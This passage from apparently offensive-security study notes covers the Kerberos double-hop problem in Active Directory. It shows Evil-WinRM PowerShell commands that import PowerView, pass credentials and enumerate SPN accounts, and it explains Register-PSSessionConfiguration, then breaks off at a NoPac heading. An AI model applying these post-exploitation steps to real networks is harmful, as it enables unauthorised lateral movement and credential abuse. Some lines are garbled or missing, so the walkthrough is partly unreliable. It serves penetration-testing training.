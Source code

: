 ### PSCredential Object 

We can connect to the remote host and set up a PSCredential object to pass our credentials. We try to import the PowerView, getting an error:
```console
*Evil-WinRM* PS C:\host1> Import-Module .\PowerView.ps1
```

If we check with `klist`, we see that we only have a cached Kerberos ticket for our current server:
```console
*Evil-WinRM* PS C:\zeropio> klist
```

Let's set up a PSCredential object. First, authentication:
```console
*Evil-WinRM* PS C:\zeropio> $SecPassword = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

Now we can try to query the SPN accounts using PowerView:
```console
*Evil-WinRM* PS C:\zeropio> get-domainuser -spn -credential $Cred | select samaccountname
```

If we try again without specifying the `-credential` flag. If we RDP to the same host, open a CMD prompt, and type klist, we'll see that we have the necessary tickets cached to interact directly with the Domain Controller, and we don't need to worry about the double hop problem. 

### Register PSSession Configuration 

If we are on a domain-joined host and can connect to another using WinRM, or from a Windows attack host and connect to our target via WinRM using **Enter-PSSession** cmdlet, we need to do the following. First, stablish the WinRM session:
```console
PS C:\zeropio> Enter-PSSession -ComputerName <COMPUTER NAME> -Credential <DOMAIN>\backupadm
```

If we check for cached tickets using `klist`, we'll see that the same problem exists. We also cannot interact directly with the DC using PowerView. One trick we can use here is registering a new session configuration using the **Register-PSSessionConfiguration** cmdlet.
```console
PS C:\htb> Register-PSSessionConfiguration -Name backupadmsess -RunAsCredential <DOMAIN>\backupadm
```

nce this is done, we need to restart the WinRM service by typing `Restart-Service WinRM` in our current PSSession. This works because our local machine will now impersonate the remote machine in the context of the **backupadm** user and all requests from our local machine will be sent directly to the Domain Controller.

> We cannot use `Register-PSSessionConfiguration` from an evil-winrm shell because we won't be able to get the credentials popup. Also, `RunAs` can only be used in a elevated PowerShell terminal.
{: .prompt-alert}

## Bleeding Edge Vulnerabilities 

### NoPac (SamAccountName Spoofing)

